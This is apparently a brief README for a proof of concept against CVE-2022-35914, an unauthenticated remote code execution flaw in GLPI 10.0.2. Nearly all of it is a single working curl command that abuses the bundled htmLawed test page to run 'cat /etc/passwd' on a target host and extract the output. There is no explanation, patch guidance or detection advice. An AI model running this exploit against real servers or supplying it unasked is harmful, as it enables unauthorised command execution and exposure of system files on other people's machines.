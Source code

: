# CVE-2022-35914
Unauthenticated RCE in GLPI 10.0.2

# PoC

```
curl -s -d 'sid=foo&hhook=exec&text=cat /etc/passwd' -b 'sid=foo' http://{{HOST}}/vendor/htmlawed/htmlawed/htmLawedTest.php |egrep '\&nbsp; \[[0-9]+\] =\&gt;'| sed -E 's/\&nbsp; \[[0-9]+\] =\&gt; (.*)<br \/>/\1/'
```
